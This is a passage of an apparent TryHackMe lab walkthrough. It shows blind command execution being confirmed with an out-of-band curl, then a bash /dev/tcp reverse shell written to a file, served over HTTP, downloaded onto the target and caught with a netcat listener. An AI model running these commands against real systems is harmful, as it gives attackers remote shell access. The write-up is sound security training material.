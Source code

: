 
This page appears to accept commands for execution but does not return any output.
![](/assets/img/posts/walthrough/tryhackme/2024-10-08-thenewyorkflankees/exec-1.png)

Since we do not have any output return to us, we can attempt an out-of-bound attack. We can do this by starting a listener on our target using `nc -lvnp 1234` and attempting to execute a command that will connect to that listener e.g. `curl 10.8.23.19:1234`.
![](/assets/img/posts/walthrough/tryhackme/2024-10-08-thenewyorkflankees/exec-2.png)

We can see that the out-of-bound attack attack was successful. We can use this to download a shell on the target system and execute it. We can start this by creating a file containing our reverse shell command and hosting it on a web server.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ echo 'bash -c "bash -i >& /dev/tcp/10.8.23.19/1234 0>&1"' > shell.sh

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ python3 -m http.server 80                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now that we have our file hosted on the server, we can download this file on the target by using the `curl` command together with the `-o` option as shown below.
![](/assets/img/posts/walthrough/tryhackme/2024-10-08-thenewyorkflankees/shell-1.png)

Before we execute our reverse shell on the target we first need to start a listener. After our listener is set up, we can execute the revere shell on the target by using the bash command.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/New York Flankees]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```